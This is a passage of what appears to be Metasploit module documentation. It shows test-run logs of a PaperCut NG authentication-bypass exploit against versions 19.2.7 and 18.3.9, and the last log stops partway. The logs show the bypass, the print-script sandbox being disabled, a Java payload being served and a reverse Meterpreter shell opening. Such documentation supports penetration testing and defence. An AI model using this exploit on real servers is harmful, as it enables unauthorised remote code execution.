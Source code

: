 ```
[*] Setting server option 'print-and-device.script.enabled' to 'N') was 'Y'

meterpreter >
```
Note: Sandboxing is enabled by default in this version, scripting must be enabled and sandboxing must be disabled.


### Tested on Linux x64 with PaperCut NG Version 19.2.7.62200
```
msf6 > use exploit/multi/http/papercut_ng_auth_bypass
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set VERBOSE true
VERBOSE => true
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set RHOSTS 10.0.4.101
RHOSTS => 10.0.4.101
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set LHOST 10.0.4.101
LHOST => 10.0.4.101
msf6 exploit(multi/http/papercut_ng_auth_bypass) > run

[-] Handler failed to bind to 10.0.4.101:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Bypass successful and created session: JSESSIONID=node01j4of6hup0i131vs585edo0uqb2.node0
[+] The target is vulnerable.
[*] Setting server option 'print-and-device.script.enabled' to 'Y') was 'N'
[*] Setting server option 'print.script.sandboxed' to 'N') was 'Y'
[*] Using URL: http://10.0.4.101:8080/PWMM7S32xpRY7
[*] Server started.
[*] Sending payload for requested uri: /PWMM7S32xpRY7.jar
[*] Sending payload for requested uri: /PWMM7S32xpRY7.jar
[*] Sending stage (58851 bytes) to 10.0.2.100
[*] Meterpreter session 1 opened (10.0.2.100:4444 -> 10.0.2.100:35072) at 2023-05-11 01:25:25 +0000
[*] Server stopped.
[*] Rolling back 'print.script.sandboxed' to 'Y'
[*] Setting server option 'print.script.sandboxed' to 'Y') was 'N'
[*] Rolling back 'print-and-device.script.enabled' to 'N'
[*] Setting server option 'print-and-device.script.enabled' to 'N') was 'Y'

meterpreter >
```
Note: Sandboxing is enabled by default in this version, scripting must be enabled and sandboxing must be disabled.


### Tested on Linux x64 with PaperCut NG Version 18.3.9.49588d
```
msf6 > use exploit/multi/http/papercut_ng_auth_bypass
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set VERBOSE true
VERBOSE => true
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set RHOSTS 10.0.4.101
RHOSTS => 10.0.4.101
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set LHOST 10.0.4.101
LHOST => 10.0.4.101
msf6 exploit(multi/http/papercut_ng_auth_bypass) > run

[-] Handler failed to bind to 10.0.4.101:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Bypass successful and created session: JSESSIONID=node0re9f1cbww5v11qgrc7y4g9qv3.node0
[+] The target is vulnerable.
```